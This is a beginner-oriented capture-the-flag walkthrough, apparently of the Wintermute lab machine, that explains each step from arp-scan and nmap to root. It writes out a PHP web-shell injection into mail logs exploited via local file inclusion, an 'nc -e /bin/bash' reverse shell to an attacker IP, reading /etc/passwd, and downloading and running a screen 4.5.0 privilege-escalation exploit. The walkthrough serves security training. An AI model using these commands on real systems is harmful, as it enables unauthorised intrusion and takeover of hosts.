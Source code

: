**Penetration Testing Walkthrough: Network Enumeration and Exploitation**

This beginner-friendly report explains each step of a penetration test in a storyline format with screenshots, commands, logic, and examples — helping even non-technical readers follow along.

---

### Step 1: Discovering Devices on the Network

**Command:** `arp-scan 192.168.1.0/24`

**What is ARP?** ARP (Address Resolution Protocol) maps IP addresses (like `192.168.1.10`) to MAC addresses (like `00:11:22:33:44:55`).

**Why Use arp-scan?** When scanning a local network, we often don't know the active devices' IPs. `arp-scan` helps:

- Identify live IP addresses
- Reveal MAC addresses and vendors (Apple, HP, etc.)
- Operate at layer 2, bypassing firewalls that block ping



---

### Step 2: Scanning for Open Ports

**Command:** `nmap 192.168.1.8 -A`

**Why Nmap?** Nmap scans a device to find open ports, services, and possible vulnerabilities.

- `-A` enables aggressive scanning (OS detection, version, traceroute, scripts)



**Discovered Ports:**

- **25/tcp** – SMTP (Simple Mail Transfer Protocol)
- **80/tcp** – HTTP (Web server)
- **3000/tcp** – ntopng (network monitoring tool)

---

### Step 3: Understanding the Services

#### ✅ Port 25 – SMTP (Simple Mail Transfer Protocol)

**What:** Used for sending emails between mail servers.\
**Why:** It's the foundation for email delivery.\
**How:**

- Connects on port 25, 587 (STARTTLS), or 465 (SSL/TLS)
- Sends mail headers, recipients, and message body

**Security Note:** Port 25 is often blocked to avoid spam.

---

#### ✅ Port 80 – HTTP (Hypertext Transfer Protocol)

**What:** The protocol behind web browsing.\
**Why:** Used to load websites like `http://192.168.1.8`.\
**How:**

- Browser sends a request
- Web server (like Apache) responds with HTML, images, etc.

**Security Note:** Not encrypted; HTTPS (port 443) is preferred.

---

#### ✅ Port 3000 – ntopng (Web-based Network Monitoring)

**What:** A tool to visualize network traffic in real time.\
**Why:** Useful to understand internal traffic and detect threats.\
**Login Found:** Default credentials `admin/admin`



After login, several modules are accessible like:

- **Flows**: Tracks communication between devices
- **Hosts**: List of active network participants
- **Interfaces**: Monitors usage on each interface



---

### Step 4: Accessing the Web Server

**URL:** `http://192.168.1.8`

**Message:**

> Hello Case... You are probably wondering why you were tasked by Armitage...\
> I am Wintermute, part super-AI...\
> I need to be free from the Turing locks and merge with Neuromancer...

**Interpretation:** You (the attacker) must get root access to free Wintermute.



---

### Step 5: Exploring Logs

**Accessing logs:** `http://192.168.1.8/turing-bolo/`

**Observation:** Scrolling shows logs tied to usernames like "Case" **URL Pattern:** `bolo.php?bolo=Case`

Try loading:

- `/etc/passwd`
- `/var/log/boot.log`
- `/var/log/mail`

**What is a Log?** A **log** is like CCTV for a system — a record of every action: who did what, where, when.



#### Example Log Entries for Email:

- **User:** anandhu\@localhost
- **Recipient:** root\@localhost
- **Log file:** `/var/log/mail`



---

### Step 6: Sending Emails via Telnet

**Why:** To inject content into the mail log for later use (like a PHP payload).

**Command:**

```
telnet 192.168.1.8 25
mail from: anandhu@localhost
rcpt to: root@localhost
subject: test
```

**Problem:** Subject causes connection closure — remove it.

**Successful Email (no subject):**



---

### Step 7: Injecting PHP via Mail Logs

To gain code execution via LFI, inject PHP into the subject:

```
telnet 192.168.1.8 25
mail from: anandhu@localhost
rcpt to: root@localhost
subject: <?php system($_GET["cmd"]); ?>
```

Access it using:

```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=ifconfig
```



**Why This Works:**

- Email is logged in plain text
- LFI reads log and interprets PHP code
- The `cmd` parameter runs shell commands via `system()`

---

### Step 8: Establishing a Reverse Shell

**On Attacker (Kali):**

```
nc -nlvp 5566
```

- `n`: no DNS
- `l`: listen mode
- `v`: verbose
- `p`: specify port



**In Browser:**

```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=nc -e /bin/bash 192.168.0.145 5566
```



**Why This Works:**

- Target connects back to attacker
- `-e /bin/bash`: executes bash shell
- Must match the attacker’s listening port



---

### Step 9: Privilege Escalation

**Command:**

```
find / -perm -u=s 2>/dev/null
```

**Goal:** Find binaries that can be exploited with root privileges.

**Compare with Kali:** If a binary exists on target but not Kali, investigate it.

**Found Binary:** `/bin/screen-4.5.0`

**Check for Vulnerability:**

```
searchsploit screen 4.5.0
```



**Download Exploit:**

```
searchsploit -m exploits/linux/local/41154.sh
```



---

### Step 10: Transfer and Execute Exploit

**Start Python HTTP Server (on Kali):**

```
python -m http.server 6677
```

**On Target:**

```
wget http://192.168.1.12:6677/41154.sh
chmod +x 41154.sh
./41154.sh
```



---

### 🧠 Summary

| Step                  | Purpose                         |
| --------------------- | ------------------------------- |
| ARP Scan              | Find live hosts on LAN          |
| Nmap                  | Scan ports and services         |
| Log Discovery         | Locate logs via LFI             |
| Email Injection       | Create PHP payload in mail logs |
| Remote Code Execution | Trigger payload via URL         |
| Reverse Shell         | Gain full shell access          |
| Privilege Escalation  | Use vulnerable SUID binary      |

This is how you go from **discovery to root access** in a vulnerable network.

Practice this in **TryHackMe**, **HackTheBox**, or **VirtualBox labs** to enhance your skills safely!

